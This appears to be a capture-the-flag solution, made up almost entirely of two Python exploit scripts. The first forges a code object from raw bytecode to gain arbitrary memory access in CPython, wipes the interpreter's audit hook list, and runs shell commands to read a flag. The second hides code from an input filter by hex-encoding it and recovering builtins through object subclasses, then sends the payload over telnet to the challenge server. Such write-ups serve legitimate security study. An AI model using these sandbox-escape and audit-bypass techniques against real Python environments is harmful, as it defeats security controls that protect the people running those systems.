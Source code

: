 ```python
offset = (addr_s - addr_c - 0x18) // 8
assert 0xffffffff > offset > 0

pwn.__code__ = types.CodeType(
  0, 0, 0, 0, 0, 0,
  # EXTENDED_ARG
  b'\x90' + p8((offset >> 24) & 0xff) +
  b'\x90' + p8((offset >> 16) & 0xff) +
  b'\x90' + p8((offset >> 8) & 0xff) +
  # LOAD_CONST
  b'\x64' + p8(offset & 0xff) +
  # RETURN_VALUE
  b'\x53' + p8(0) +
  b''
  ,
  consts, (), (), '', '', 0, b''
)
mem = pwn()
print(len(mem))
print(mem[_PyRuntime:_PyRuntime+8])
print(mem[audit_hook_head:audit_hook_head+8])
mem[audit_hook_head:audit_hook_head+8] = b'\0' * 8
print(hex(id(type)))
print('done')

import os
os.system('ls -lah /')
os.system('/readflag')
```

Also, the code to bypass input filter:

```python
import re
import codecs
from telnetlib import Telnet


code = """
print(42)
print(43)
"""
code = 'XXX' + codecs.encode(code.encode(), 'hex').decode()
magic = """
[b['exec'](b['bytes'].fromhex([(c[3:])for(c)in(b['vars']().keys())if(c[:3]=='XXX')][0]),{'__builtins__':b})for(b,%s)in[(
    [(i)for(i)in([].__class__.__base__.__subclasses__())if('Sized')in(i.__name__)][0]
        .__len__.__globals__['__builtins__']
,0)]]
""" % code
magic = re.sub(r'\s', r'', magic)
print(len(magic))
# print(eval(magic))
r = Telnet('pwnable.org', 41337)
r.write(magic.encode() + b'\n')
r.interact()
```
